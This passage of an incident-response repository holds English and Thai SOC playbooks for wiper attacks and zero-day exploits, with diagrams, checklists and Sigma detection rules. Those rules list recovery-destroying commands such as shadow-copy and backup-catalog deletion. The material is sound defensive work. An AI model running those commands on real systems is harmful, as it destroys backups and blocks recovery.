| Systems affected | 0 | [Count] |
| Data permanently lost | 0 | [Assessment] |
| Time to full recovery | < 72h | [Actual] |

## 6. Detection Rules (Sigma)

```yaml
title: Volume Shadow Copy Deletion (Wiper Precursor)
logsource:
    product: windows
    category: process_creation
detection:
    selection:
        CommandLine|contains:
            - 'vssadmin delete shadows'
            - 'wmic shadowcopy delete'
            - 'bcdedit /set.*recoveryenabled.*no'
            - 'wbadmin delete catalog'
    condition: selection
    level: critical
```

```yaml
title: Mass File Deletion Pattern
logsource:
    product: windows
    category: file_delete
detection:
    selection:
        TargetFilename|endswith:
            - '.doc'
            - '.xls'
            - '.pdf'
            - '.mdb'
    timeframe: 1m
    condition: selection | count() > 100
    level: critical
```

## Related Documents
- [IR Framework](../Framework.en.md)
- [Sigma Rules Index](../../08_Detection_Engineering/README.md)
- [Ransomware Playbook](Ransomware.en.md)
- [Malware Infection Playbook](Malware_Infection.en.md)
- [Disaster Recovery & BCP](../Disaster_Recovery_BCP.en.md)
- [Tier 3 Runbook](../Runbooks/Tier3_Runbook.en.md)

## References
- [MITRE T1485 — Data Destruction](https://attack.mitre.org/techniques/T1485/)
- [CISA — Destructive Malware](https://www.cisa.gov/news-events/cybersecurity-advisories)
- [Microsoft — Wiper Malware Analysis](https://www.microsoft.com/en-us/security/blog/)


---

## File: 05_Incident_Response/Playbooks/Wiper_Attack.th.md

# Playbook: การตอบสนอง Wiper / การโจมตีแบบทำลาย

**ID**: PB-38
**ความรุนแรง**: วิกฤต | **ประเภท**: Impact
**MITRE ATT&CK**: [T1485](https://attack.mitre.org/techniques/T1485/) (Data Destruction), [T1561](https://attack.mitre.org/techniques/T1561/) (Disk Wipe), [T1490](https://attack.mitre.org/techniques/T1490/) (Inhibit System Recovery)
**Trigger**: EDR alert (ลบไฟล์จำนวนมาก), SIEM (MBR overwrite pattern), หลายระบบ offline พร้อมกัน

> ⚠️ **วิกฤต**: Wiper attacks เป็นการทำลายที่ย้อนกลับไม่ได้ ความเร็วคือทุกอย่าง — แยกก่อนที่ wiper จะแพร่กระจาย อย่าพยายาม remediate บนระบบที่ติด

### กลุ่ม Wiper Malware ที่รู้จัก

```mermaid
graph TD
    Wiper["💀 Wiper Malware"] --> NotPetya["NotPetya (2017)\nSMB + EternalBlue"]
    Wiper --> Shamoon["Shamoon (2012)\nMBR overwrite"]
    Wiper --> WhisperGate["WhisperGate (2022)\nมุ่งเป้ายูเครน"]
    Wiper --> HermeticWiper["HermeticWiper (2022)\nPartition corruption"]
    Wiper --> CaddyWiper["CaddyWiper (2022)\nลบไฟล์ + partition"]
    Wiper --> Industroyer2["Industroyer2 (2022)\nมุ่งเป้า OT/ICS"]
    Wiper --> AcidRain["AcidRain (2022)\nลบ Modem/router"]
    style Wiper fill:#660000,color:#fff
    style NotPetya fill:#cc0000,color:#fff
    style HermeticWiper fill:#cc0000,color:#fff
```

### Wiper Kill Chain

```mermaid
graph LR
    A["1️⃣ เข้าถึง\nPhishing/Exploit"] --> B["2️⃣ เตรียม\nวาง wiper"]
    B --> C["3️⃣ ปิด Recovery\nลบ VSS/backup"]
    C --> D["4️⃣ แพร่กระจาย\nSMB/PsExec/GPO"]
    D --> E["5️⃣ ทำงาน\nOverwrite MBR/ไฟล์"]
    E --> F["6️⃣ ระบบล่ม\n💀"]
    style A fill:#ff9900,color:#fff
    style C fill:#ff4444,color:#fff
    style E fill:#cc0000,color:#fff
    style F fill:#660000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 ตรวจพบกิจกรรมทำลาย"] --> Type{"ประเภทการทำลาย?"}
    Type -->|"MBR overwrite"| MBR["ระบบ boot ไม่ได้\n💀 วิกฤต"]
    Type -->|"ลบไฟล์จำนวนมาก"| Files["ลบ/เข้ารหัสจำนวนมาก\nตรวจว่าเป็น ransomware"]
    Type -->|"ลบ Shadow copy"| VSS["Recovery ถูกปิด\nสัญญาณก่อน wiper"]
    MBR --> Isolate["🔴 แยกทุก SEGMENT ที่ได้รับผลกระทบ"]
    Files --> Ransom{"มี Ransom note?"}
    Ransom -->|ใช่| RansomPB["→ Ransomware Playbook PB-02"]
    Ransom -->|"ไม่ — ทำลายล้วน"| Isolate
    VSS --> Monitor["ตรวจติดตาม wiper ตามมา"]
    Isolate --> Scope{"กำลังแพร่กระจาย?"}
    Scope -->|ใช่| Emergency["🚨 ฉุกเฉิน\nแบ่ง segment ทั้งเครือข่าย"]
    Scope -->|"จำกัดเครื่องเดียว"| Investigate["สืบสวน wiper binary"]
    Emergency --> BCP["เปิดใช้ BCP/DR"]
    style Alert fill:#ff4444,color:#fff
    style MBR fill:#660000,color:#fff
    style Emergency fill:#660000,color:#fff
```

### การสื่อสารเหตุการณ์

```mermaid
sequenceDiagram
    participant SOC as SOC Analyst
    participant Manager as SOC Manager
    participant CISO
    participant CEO
    participant Legal
    participant BCP as BCP Team

    SOC->>Manager: 🚨 พบ Wiper — หลายระบบล่ม
    Manager->>CISO: วิกฤต — การโจมตีทำลายกำลังดำเนินอยู่
    CISO->>CEO: ต้องเปิด BCP
    CISO->>Legal: ประเมินการแจ้้งตามกฎหมาย
    CISO->>BCP: เปิดแผน disaster recovery
    BCP->>BCP: เริ่ม rebuild จาก clean backups
    SOC->>Manager: อัปเดตสถานะทุก 30 นาที
    Manager->>CISO: ประเมินขอบเขต: X ระบบได้รับผลกระทบ
```

### วิธีการแพร่กระจายของ Wiper

```mermaid
graph TD
    Prop["วิธีแพร่กระจาย"] --> SMB["SMB/EternalBlue\nNetwork shares"]
    Prop --> PsExec["PsExec/WMI\nAdmin credentials"]
    Prop --> GPO["Group Policy\nDeploy ทั้ง domain"]
    Prop --> Supply["Supply Chain\nผ่าน software update"]
    Prop --> USB["USB/Removable\nเครือข่าย air-gapped"]
    SMB --> Wide["🔴 ผลกระทบทั้งเครือข่าย"]
    PsExec --> Wide
    GPO --> Wide
    style Prop fill:#333,color:#fff
    style Wide fill:#660000,color:#fff
```

### Timeline การตอบสนอง

```mermaid
gantt
    title Wiper Attack Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        Alert triggered        :a1, 00:00, 5min
        ยืนยันการทำลาย         :a2, after a1, 10min
    section Containment
        Network segmentation   :a3, after a2, 15min
        แยกเครื่องทั้งหมด      :a4, after a3, 30min
    section Recovery
        ตรวจสถานะ backup       :a5, after a4, 60min
        เริ่ม rebuild           :a6, after a5, 180min
        กู้คืนระบบ              :a7, after a6, 480min
    section Hardening
        Root cause analysis    :a8, after a7, 120min
```

### การประเมินผลกระทบ

```mermaid
graph TD
    Impact["ประเมินผลกระทบ"] --> Single{"เครื่องเดียว?"}
    Single -->|ใช่| Low["🟡 ปานกลาง\nRebuild ระบบเดียว"]
    Single -->|หลายเครื่อง| Domain{"Domain controller ได้รับผลกระทบ?"}
    Domain -->|ไม่| Med["🟠 สูง\nRebuild หลายระบบ"]
    Domain -->|ใช่| DC{"AD database ยังอยู่?"}
    DC -->|ใช่| High["🔴 วิกฤต\nRebuild DC + reset credentials"]
    DC -->|ไม่| Cat["💀 หายนะ\nFull AD rebuild จาก backup"]
    style Impact fill:#333,color:#fff
    style Cat fill:#660000,color:#fff
```

---

## 1. การดำเนินการทันที (10 นาทีแรก)

| # | การดำเนินการ | ผู้รับผิดชอบ |
|:---|:---|:---|
| 1 | **แยก** network segments ที่ได้รับผลกระทบทันที | Network Team |
| 2 | ปิดเครื่องที่แสดงกิจกรรม wiper (เก็บหลักฐาน) | SOC T1 |
| 3 | Block lateral movement: ปิด SMB, PsExec, WMI | Network Team |
| 4 | ตรวจ backup integrity ก่อนเชื่อมต่อ backup systems | SOC T2 |
| 5 | แจ้ง CISO — เปิดแผน BCP/DR | SOC Manager |
| 6 | เก็บเครื่องที่ติดอย่างน้อย 1 เครื่องสำหรับ forensics | IR Team |

## 2. รายการตรวจสอบการสืบสวน

### วิเคราะห์ Malware
- [ ] เก็บ wiper binary (ถ้าระบบยังทำงาน)
- [ ] ระบุกลุ่ม wiper (hash lookup ใน VT, MalwareBazaar)
- [ ] ระบุวิธีแพร่กระจาย (SMB, PsExec, GPO, scheduled task)
- [ ] ตรวจความสามารถ self-propagation
- [ ] ระบุ kill switch หรือ C2 communication

### ประเมินขอบเขต
- [ ] กี่ระบบได้รับผลกระทบ?
- [ ] Wiper ยังแพร่กระจายอยู่หรือไม่?
- [ ] Domain controllers ถูกโจมตีหรือไม่?
- [ ] Backups เข้าถึงได้และสะอาดหรือไม่?
- [ ] ระบบ OT/ICS มีความเสี่ยงหรือไม่?

### การเข้าถึงเบื้องต้น (Initial Access)
- [ ] Wiper เข้าสู่เครือข่ายอย่างไร?
- [ ] ตรวจ email logs สำหรับ phishing เริ่มต้น
- [ ] ตรวจ VPN/RDP logs สำหรับการเข้าถึงที่ไม่ได้รับอนุญาต
- [ ] ทบทวน supply chain components

## 3. การควบคุม (Containment)

| ลำดับ | การดำเนินการ | รายละเอียด |
|:---|:---|:---|
| **P0** | Network segmentation | Block SMB (445), RDP (3389) ระหว่าง VLANs |
| **P0** | ปิด admin shares | `net share C$ /delete` ทั้งเครือข่าย |
| **P1** | ตัด backups | ให้ backup networks เป็น air-gapped |
| **P1** | ปิด scheduled tasks | ลบ GPO-deployed tasks |
| **P2** | Block C2 domains/IPs | Firewall + DNS sinkhole |

## 4. การกำจัดและกู้คืน

### ลำดับการกู้คืน
1. **Domain Controllers** — Rebuild AD จาก clean backup
2. **DNS/DHCP** — กู้คืน network services
3. **Backup infrastructure** — ตรวจและปกป้อง
4. **ระบบธุรกิจสำคัญ** — ERP, email, file servers
5. **Workstations** — Reimage จาก gold image

### รายการตรวจสอบการกู้คืน
- [ ] ยืนยัน backup integrity ก่อนกู้คืน
- [ ] Rebuild ระบบจาก clean images (ไม่ใช่จาก infected backups)
- [ ] Reset credentials ทั้ง domain (รวมถึง KRBTGT สองครั้ง)
- [ ] Deploy EDR agents ใหม่บนระบบที่ rebuild
- [ ] ทำ network segmentation ก่อนเชื่อมต่อคืน

## 5. หลังเหตุการณ์ (Post-Incident)

### บทเรียน
| คำถาม | คำตอบ |
|:---|:---|
| Wiper ถูกตรวจจับก่อนทำงานหรือไม่? | [Timeline] |
| Backups เป็น air-gapped อย่างถูกต้องหรือไม่? | [ใช่/ไม่] |
| Network segmentation ทำได้เร็วแค่ไหน? | [เวลา] |
| แผน BCP/DR มีประสิทธิภาพหรือไม่? | [ประเมิน] |

### ตัวชี้วัดการกู้คืน
| ตัวชี้วัด | เป้าหมาย | จริง |
|:---|:---|:---|
| เวลาตรวจจับ | < 15 นาที | [จริง] |
| เวลา contain | < 30 นาที | [จริง] |
| ระบบที่ได้รับผลกระทบ | 0 | [จำนวน] |
| ข้อมูลสูญเสียถาวร | 0 | [ประเมิน] |
| เวลากู้คืนทั้งหมด | < 72 ชม. | [จริง] |

## 6. Detection Rules (Sigma)

```yaml
title: Volume Shadow Copy Deletion (สัญญาณก่อน Wiper)
logsource:
    product: windows
    category: process_creation
detection:
    selection:
        CommandLine|contains:
            - 'vssadmin delete shadows'
            - 'wmic shadowcopy delete'
            - 'bcdedit /set.*recoveryenabled.*no'
            - 'wbadmin delete catalog'
    condition: selection
    level: critical
```

```yaml
title: Mass File Deletion Pattern
logsource:
    product: windows
    category: file_delete
detection:
    selection:
        TargetFilename|endswith:
            - '.doc'
            - '.xls'
            - '.pdf'
            - '.mdb'
    timeframe: 1m
    condition: selection | count() > 100
    level: critical
```

## เอกสารที่เกี่ยวข้อง
- [Ransomware Playbook](Ransomware.th.md)
- [Malware Infection Playbook](Malware_Infection.th.md)
- [Disaster Recovery & BCP](../Disaster_Recovery_BCP.th.md)
- [คู่มือ Tier 3](../Runbooks/Tier3_Runbook.th.md)

## References
- [MITRE T1485 — Data Destruction](https://attack.mitre.org/techniques/T1485/)
- [CISA — Destructive Malware](https://www.cisa.gov/news-events/cybersecurity-advisories)
- [Microsoft — Wiper Malware Analysis](https://www.microsoft.com/en-us/security/blog/)


---

## File: 05_Incident_Response/Playbooks/Zero_Day_Exploit.en.md

# Playbook: Zero-Day Exploit Response

**ID**: PB-24
**Severity**: Critical | **Category**: Vulnerability Exploitation
**MITRE ATT&CK**: [T1190](https://attack.mitre.org/techniques/T1190/) (Exploit Public-Facing Application), [T1203](https://attack.mitre.org/techniques/T1203/) (Exploitation for Client Execution)
**Trigger**: Vendor advisory (0-day), TI alert, CISA KEV, Anomalous behavior without known CVE

### Zero-Day Response Timeline

```mermaid
graph LR
    Disc["🔍 0-day Discovered"] --> Assess["⚖️ Impact?"]
    Assess --> Mitigate["🛡️ Virtual Patch"]
    Mitigate --> Monitor["👁️ Monitor"]
    Monitor --> Patch["🩹 Vendor Patch"]
    Patch --> Apply["✅ Deploy"]
    style Disc fill:#e74c3c,color:#fff
    style Mitigate fill:#f39c12,color:#fff
    style Apply fill:#27ae60,color:#fff
```

### Vulnerability Triage

```mermaid
sequenceDiagram
    participant TI as Threat Intel
    participant SOC
    participant VM as Vuln Mgmt
    participant Ops
    TI->>SOC: 🚨 0-day advisory
    SOC->>VM: Scan for vulnerable assets
    VM-->>SOC: Found 50 servers
    SOC->>Ops: WAF virtual patch immediately
    Ops-->>SOC: ✅ Virtual patch active
    Note over SOC: ⏳ Wait for vendor patch
```

> 🚨 **ZERO-DAY = No Patch Available**. Immediate compensating controls and virtual patching are critical until vendor releases a fix.

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Zero-Day Alert"] --> Source{"📢 Source?"}
    Source -->|Vendor Advisory| Vendor["📄 Review CVE + Advisory"]
    Source -->|CISA KEV| KEV["🏛️ In Active Exploitation"]
    Source -->|Threat Intel / News| TI["📰 Emerging Zero-Day"]
    Source -->|Internal Anomaly| Internal["🔍 Unknown Exploit Detected"]
    Vendor --> Exposure["📊 Asset Inventory — Are We Affected?"]
    KEV --> Exposure
    TI --> Exposure
    Internal --> Exposure
    Exposure -->|Yes, We Run Affected Software| Affected["🔴 Assess Exploitation"]
    Exposure -->|No| Safe["✅ Monitor — Not Affected"]
    Affected --> IOC{"🔍 IoCs Found?"}
    IOC -->|Yes — Actively Exploited| Compromised["🔴 Confirmed Compromise"]
    IOC -->|No IoCs Yet| Mitigate["🟠 Apply Emergency Mitigations"]
    Compromised --> FullIR["🔒 Full IR + Emergency Containment"]
    Mitigate --> VPatch["🛡️ Virtual Patch + Monitor"]
```

---

## 1. Analysis

### 1.1 Zero-Day Assessment Framework

| Factor | Assessment | Score |
|:---|:---|:---|
| **CVSS Score** | ___/10 | |
| **Attack Vector** | Network / Adjacent / Local / Physical | |
| **Complexity** | Low / High | |
| **Authentication Required** | None / Low / High | |
| **CISA KEV Listed** | Yes / No | |
| **Active Exploitation Confirmed** | Yes / No | |
| **Public PoC Available** | Yes / No | |
| **Patch Available** | Yes / No (Zero-Day = No) | |
| **Our Exposure** | Internet-facing / Internal / Not affected | |

### 1.2 Investigation Checklist

| Check | How | Done |
|:---|:---|:---:|
| What software/version is affected? | Advisory / CVE | ☐ |
| Inventory ALL systems running affected software | CMDB, vulnerability scanner | ☐ |
| Are any affected systems internet-facing? | Firewall rules, Shodan, ASM | ☐ |
| Search for advisory-provided IoCs | EDR, SIEM, network logs | ☐ |
| Check for web shells, new files, backdoors | EDR, file integrity monitor | ☐ |
| Check for unusual outbound connections | Proxy / firewall / netflow | ☐ |
| Review logs for exploitation attempts | WAF / IDS / application logs | ☐ |
| Are vendor workarounds available? | Advisory | ☐ |

### 1.3 Exposure Priority Matrix

| System Type | Internet-Facing | Severity | Action |
|:---|:---|:---|:---|
| **Production, Internet-facing** | Yes | 🔴 Critical | Immediate mitigation |
| **Production, Internal** | No | 🟠 High | Priority mitigation |
| **Dev/Test, Internet-facing** | Yes | 🟠 High | Take offline or mitigate |
| **Dev/Test, Internal** | No | 🟡 Medium | Schedule mitigation |

---

## 2. Containment

### 2.1 Emergency Mitigations (No Patch Available)

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Disable vulnerable feature/service** if possible | ☐ |
| 2 | **Restrict network access** to affected systems (ACLs/FW rules) | ☐ |
| 3 | **Virtual patching** — deploy IPS/WAF signatures for exploit attempt | ☐ |
| 4 | **Take offline** internet-facing instances if business allows | ☐ |
| 5 | **Increase logging** on affected systems | ☐ |

### 2.2 If Exploitation Confirmed

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Isolate** compromised systems from network | ☐ |
| 2 | **Snapshot/image** compromised systems for forensics | ☐ |
| 3 | **Block** C2 IPs/domains from advisory | ☐ |
| 4 | **Disable** compromised user accounts | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Apply vendor patch** as soon as released (emergency change) | ☐ |
| 2 | **Perform forensics** — determine attack scope, lateral movement, data access | ☐ |
| 3 | **Reset credentials** for accounts on compromised systems | ☐ |
| 4 | **Hunt for backdoors** — web shells, implants, scheduled tasks, new users | ☐ |
| 5 | **Remove** all attacker artifacts | ☐ |
| 6 | **Verify integrity** — compare critical files to known-good baseline | ☐ |

---

## 4. Recovery

### 4.1 Patching Priority

| Priority | System Type | Timeline |
|:---|:---|:---|
| **P0** | Internet-facing, exploited | Immediately |
| **P1** | Internet-facing, not yet exploited | Within 24 hours |
| **P2** | Internal, critical | Within 48 hours |
| **P3** | Internal, non-critical | Within 7 days |

### 4.2 Post-Patch Actions

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Validate patch applied successfully | ☐ |
| 2 | Verify vulnerability no longer exploitable | ☐ |
| 3 | Check for residual compromise EVEN after patching | ☐ |
| 4 | Update SBOM with patched versions | ☐ |
| 5 | Monitor for re-exploitation attempts for 30 days | ☐ |

---

## 5. Communication

| Audience | When | What |
|:---|:---|:---|
| **CISO** | Immediately for Critical CVSS | Exposure assessment, mitigation status |
| **Executive team** | If confirmed exploitation | Business impact, remediation timeline |
| **Legal / DPO** | If data breach confirmed | PDPA notification (72h) |
| **Vendor** | If you discover a new zero-day | Coordinated Vulnerability Disclosure (CVD) |
| **ISACs / Peers** | After confirming IoCs | TLP:AMBER or TLP:GREEN sharing |
| **Regulators** | If critical infrastructure affected | Per regulatory requirements |

---

## 6. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| CVE ID | | Advisory |
| Affected software/version | | Advisory |
| Exploit payload/signature | | Advisory / IDS |
| C2 domains/IPs | | Advisory / TI |
| Web shell / backdoor hashes | | EDR / Forensics |
| Attacker IP | | WAF / IDS / Logs |

---

## 7. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Internet-facing system with active exploitation | CISO + Major Incident |
| Public PoC available + we're exposed | SOC Lead urgently |
| Data exfiltration during exploitation | Legal + DPO (PDPA 72h) |
| Multiple systems compromised | Major Incident team |
| Nation-state indicators | Law enforcement + National CERT |
| You discover a new zero-day in our systems | CISO + CVD process |

---

### Threat Intel Coordination

```mermaid
sequenceDiagram
    participant CERT
    participant TI as Threat Intel
    participant SOC
    participant Ops
    CERT->>TI: 🚨 Zero-day advisory
    TI->>SOC: Assess impact
    SOC->>Ops: Scan for vulnerable assets
    Ops-->>SOC: Found 50 servers
    SOC->>Ops: Deploy virtual patch
    Ops-->>SOC: ✅ Patched
```

### Compensating Controls

```mermaid
graph TD
    ZeroDay["🔓 Zero-Day"] --> WAF["🛡️ WAF virtual patch"]
    ZeroDay --> Segment["🔒 Network segmentation"]
    ZeroDay --> ACL["📋 Restrict access"]
    ZeroDay --> Monitor["👁️ Enhanced monitoring"]
    WAF --> Wait["⏳ Wait vendor patch"]
    Segment --> Wait
    ACL --> Wait
    Monitor --> Wait
    Wait --> Apply["✅ Apply official patch"]
    style ZeroDay fill:#e74c3c,color:#fff
    style Apply fill:#27ae60,color:#fff
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Zero-Day Exploit Attempt | [web_zero_day_exploit_attempt.yml](../../08_Detection_Engineering/sigma_rules/web_zero_day_exploit_attempt.yml) |
| WAF Detected Exploit Attempt | [web_waf_exploit.yml](../../08_Detection_Engineering/sigma_rules/web_waf_exploit.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-18 Exploit](Exploit.en.md)
- [PB-32 Supply Chain](Supply_Chain_Attack.en.md)
- [PB-09 Lateral Movement](Lateral_Movement.en.md)

## References

- [MITRE ATT&CK T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [CISA Known Exploited Vulnerabilities (KEV)](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)
- [NIST NVD — National Vulnerability Database](https://nvd.nist.gov/)
- [FIRST — Coordinated Vulnerability Disclosure](https://www.first.org/global/sigs/vulnerability-coordination/)


---

## File: 05_Incident_Response/Playbooks/Zero_Day_Exploit.th.md

# Playbook: Zero-Day Exploit / การโจมตีช่องโหว่ Zero-Day

**ID**: PB-24
**ระดับความรุนแรง**: วิกฤต | **หมวดหมู่**: การโจมตีช่องโหว่
**MITRE ATT&CK**: [T1190](https://attack.mitre.org/techniques/T1190/) (Exploit Public-Facing App), [T1203](https://attack.mitre.org/techniques/T1203/) (Exploitation for Client Execution)
**ทริกเกอร์**: Vendor advisory (0-day), TI alert, CISA KEV, anomalous behavior without known CVE


## หลังเหตุการณ์ (Post-Incident)

- [ ] ติดตาม vendor patch/advisory อย่างใกล้ชิด
- [ ] ใช้ compensating controls จนกว่าจะมี patch
- [ ] แชร์ indicators กับ ISAC/CERT community
- [ ] ทบทวน threat intel coordination process
- [ ] ตรวจสอบ environment หา exploitation indicators
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผัง Zero-Day Response Timeline

```mermaid
graph LR
    Disc["🔍 ค้นพบ 0-day"] --> Assess["⚖️ ผลกระทบ?"]
    Assess --> Mitigate["🛡️ Virtual Patch"]
    Mitigate --> Monitor["👁️ Monitor"]
    Monitor --> Patch["🩹 Vendor Patch"]
    Patch --> Apply["✅ Deploy"]
    style Disc fill:#e74c3c,color:#fff
    style Mitigate fill:#f39c12,color:#fff
    style Apply fill:#27ae60,color:#fff
```

### ผังขั้นตอน Vulnerability Triage

```mermaid
sequenceDiagram
    participant TI as Threat Intel
    participant SOC
    participant VM as Vuln Mgmt
    participant Ops
    TI->>SOC: 🚨 0-day advisory
    SOC->>VM: สแกนหา vulnerable assets
    VM-->>SOC: พบ 50 servers
    SOC->>Ops: WAF virtual patch ทันที
    Ops-->>SOC: ✅ Virtual patch active
    Note over SOC: ⏳ รอ vendor patch
```

> 🚨 **ไม่มี Patch** — ต้องใช้ mitigation ทางเลือกจนกว่า vendor จะออก patch

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Zero-Day Advisory"] --> Assess{"📊 องค์กรได้รับผลกระทบ?"}
    Assess -->|ใช่| Exposure{"🌐 Internet-facing?"}
    Assess -->|ไม่| Monitor["👁️ ติดตาม Advisory"]
    Exposure -->|ใช่| Urgent["🔴 Virtual Patch ทันที"]
    Exposure -->|ไม่| Internal["🟠 จำกัด Access + Monitor"]
    Urgent --> Exploited{"💥 ถูก Exploit แล้ว?"}
    Internal --> Exploited
    Exploited -->|ใช่| IR["🔴 Full Incident Response"]
    Exploited -->|ไม่| Wait["⏳ รอ Patch + Monitor"]
```

---

## 1. การวิเคราะห์

### 1.1 การประเมินช่องโหว่

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| CVE ID (ถ้ามี) | Advisory / NVD | ☐ |
| ซอฟต์แวร์/เวอร์ชันที่ได้รับผลกระทบ | Advisory | ☐ |
| CVSS score + attack vector | NVD / Advisory | ☐ |
| มี PoC exploit สาธารณะ? | GitHub / ExploitDB | ☐ |
| มี active exploitation ใน wild? | Advisory / CISA KEV | ☐ |
| อยู่ใน CISA KEV catalog? | [KEV](https://www.cisa.gov/known-exploited-vulnerabilities-catalog) | ☐ |
| กี่ asset ขององค์กรได้รับผลกระทบ? | CMDB / vuln scanner | ☐ |
| Internet-facing หรือ internal only? | Network diagram | ☐ |
| มี IoC จาก advisory? | TI search | ☐ |
| ถูก exploit แล้วหรือยัง? (ตรวจ IoC) | EDR / SIEM / IDS | ☐ |

### 1.2 ลำดับความสำคัญในการ Patch

| ลำดับ | ระบบ | SLA |
|:---|:---|:---|
| 1 | Internet-facing + data สำคัญ | **ทันที** (hours) |
| 2 | Internet-facing ทั่วไป | **24 ชม.** |
| 3 | Internal + data สำคัญ | **72 ชม.** |
| 4 | Internal ทั่วไป | **7 วัน** |

---

## 2. การควบคุม (ไม่มี Patch)

| # | การดำเนินการ | เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **Virtual patch** — IPS/WAF rule | IPS / WAF | ☐ |
| 2 | **จำกัด network access** ไปยังระบบที่มีช่องโหว่ | Firewall / ACL | ☐ |
| 3 | **ปิดฟีเจอร์** ที่เป็นช่องโหว่ (ถ้าทำได้) | App config | ☐ |
| 4 | **Take offline** ถ้าเป็น internet-facing + วิกฤต | Load balancer | ☐ |
| 5 | **เพิ่ม monitoring** — specific detection rules | SIEM / EDR | ☐ |
| 6 | **Scan IoC** จาก advisory ทั้ง environment | SIEM / EDR | ☐ |

### 2.1 หากถูก Exploit แล้ว

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **Isolate** ระบบที่ถูก exploit | ☐ |
| 2 | **Preserve evidence** (memory dump, logs) | ☐ |
| 3 | **ตรวจ lateral movement** | ☐ |
| 4 | **ตรวจ data exfiltration** | ☐ |
| 5 | ดำเนินการตาม Full IR process | ☐ |

---

## 3. เมื่อ Patch พร้อม

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | Patch ตามลำดับความสำคัญ (ดูตาราง 1.2) | ☐ |
| 2 | Vulnerability scan ยืนยันว่า patch สำเร็จ | ☐ |
| 3 | ลบ virtual patch / workaround (ถ้า patch ครอบคลุม) | ☐ |
| 4 | ตรวจว่าถูก exploit ระหว่าง exposure window | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **Patch ทั้งหมด** ยืนยันด้วย vulnerability scan | ☐ |
| 2 | ตรวจ post-exploitation activity ระหว่าง window | ☐ |
| 3 | อัปเดต vulnerability management SLA | ☐ |
| 4 | เพิ่ม IPS rules สำหรับ exploit pattern (defense in depth) | ☐ |
| 5 | ทบทวน asset inventory + patching automation | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| Active exploitation ยืนยัน | CISO + Major Incident |
| Critical infrastructure ได้รับผลกระทบ | Regulator |
| ข้อมูลถูกเข้าถึง | Legal + DPO (PDPA 72 ชม.) |
| ไม่สามารถ mitigate ได้ | Executive decision (risk acceptance) |
| Nation-state indicators | CISO + National CERT |

---

### ผัง Threat Intel Coordination

```mermaid
sequenceDiagram
    participant CERT
    participant TI as Threat Intel
    participant SOC
    participant Ops
    CERT->>TI: 🚨 Zero-day advisory
    TI->>SOC: ประเมินผลกระทบ
    SOC->>Ops: สแกน vulnerable assets
    Ops-->>SOC: พบ 50 servers
    SOC->>Ops: Deploy virtual patch
    Ops-->>SOC: ✅ Patched
```

### ผัง Compensating Controls

```mermaid
graph TD
    ZeroDay["🔓 Zero-Day"] --> WAF["🛡️ WAF virtual patch"]
    ZeroDay --> Segment["🔒 Network segmentation"]
    ZeroDay --> ACL["📋 Restrict access"]
    ZeroDay --> Monitor["👁️ Enhanced monitoring"]
    WAF --> Wait["⏳ Wait vendor patch"]
    Segment --> Wait
    ACL --> Wait
    Monitor --> Wait
    Wait --> Apply["✅ Apply official patch"]
    style ZeroDay fill:#e74c3c,color:#fff
    style Apply fill:#27ae60,color:#fff
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Zero-Day Exploit Attempt | [web_zero_day_exploit_attempt.yml](../../08_Detection_Engineering/sigma_rules/web_zero_day_exploit_attempt.yml) |
| WAF Detected Exploit Attempt | [web_waf_exploit.yml](../../08_Detection_Engineering/sigma_rules/web_waf_exploit.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-18 การใช้ช่องโหว่](Exploit.th.md)

## Indicators of Zero-Day Exploitation

| Indicator | Detection Method | Priority |
|:---|:---|:---|
| Unknown process behavior | EDR behavioral analysis | Critical |
| Unusual network callbacks | Network flow analysis | Critical |
| Memory corruption signs | Memory forensics | High |
| Privilege escalation chain | SIEM correlation | Critical |
| Vendor-unknown signatures | Sandbox detonation | High |

### Vendor Coordination Workflow

| Step | Action | Timeline | Owner |
|:---|:---|:---|:---|
| 1 | Document exploit details | Immediately | IR Team |
| 2 | Contact vendor PSIRT | < 4 hrs | SOC Manager |
| 3 | Apply compensating controls | < 8 hrs | IT Security |
| 4 | Monitor for variants | Ongoing | SOC |
| 5 | Deploy vendor patch | Per vendor SLA | IT Ops |
| 6 | Validate fix + close | Post-patch | IR Team |

### Temporary Mitigation Options

```
Priority Mitigations:
1. Network segmentation     ████████████  Highest impact
2. Application whitelisting ████████████  High impact
3. WAF/IPS signature        ██████████    Medium-high
4. Disable vulnerable feature ████████    Medium
5. Enhanced monitoring      ██████        Baseline
```

### Patch Management Priority

| Status | Action | Timeline |
|:---|:---|:---|
| Vendor patch available | Test + deploy | 24 hrs |
| No patch yet | Compensating controls | Immediate |
| EOL software | Replace | Plan within 30d |

### Threat Intelligence Sharing

| Platform | Share What | When |
|:---|:---|:---|
| Industry ISAC | IOCs + TTPs | Post-containment |
| CERT/CSIRT | Exploit details | After vendor notified |
| MISP | Structured IOCs | Ongoing |
| Internal TI | Full analysis | Immediate |

## อ้างอิง

